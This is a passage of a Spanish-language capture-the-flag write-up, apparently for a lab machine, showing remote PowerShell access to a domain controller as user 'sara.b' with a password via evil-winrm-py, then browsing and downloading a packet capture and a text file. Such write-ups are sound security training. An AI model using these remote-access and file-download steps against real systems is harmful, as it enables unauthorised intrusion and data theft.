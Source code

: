~~~ bash
xamppuser
~~~


## Shell as `sara.b`

Sabiendo que `sara.b` es miembro del grupo `Remote Management Users`, podremos conectarnos a la máquina con una consola de `powershell` empleando herramientas como `evil-winrm` o su versión de `python`, `evil-winrm-py`

~~~ bash
evil-winrm-py -i DC01.certificate.htb -u 'sara.b' -p 'Blink182'
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to DC01.certificate.htb:5985 as sara.b
evil-winrm-py PS C:\Users\Sara.B\Documents> whoami
certificate\sara.b
~~~


## Interesting Files

Dentro de la carpeta `Documents` de `sara.b`, existe una carpeta que hace referencia a una computadora a nivel de dominio (`WS-01`).

Dentro de `WS-01`, encontraremos un archivo de texto además de lo que parece ser una captura de paquetes

~~~ powershell
evil-winrm-py PS C:\Users\Sara.B\Documents> dir

    Directory: C:\Users\Sara.B\Documents

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        11/4/2024  12:53 AM                WS-01

evil-winrm-py PS C:\Users\Sara.B\Documents> dir WS-01

    Directory: C:\Users\Sara.B\Documents\WS-01

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap
~~~

Descargaremos estos archivos en nuestra máquina con la funcionalidad `download`

~~~ powershell
evil-winrm-py PS C:\Users\Sara.B\Documents> download WS-01\WS-01_PktMon.pcap .

evil-winrm-py PS C:\Users\Sara.B\Documents> download WS-01\description.txt .
~~~
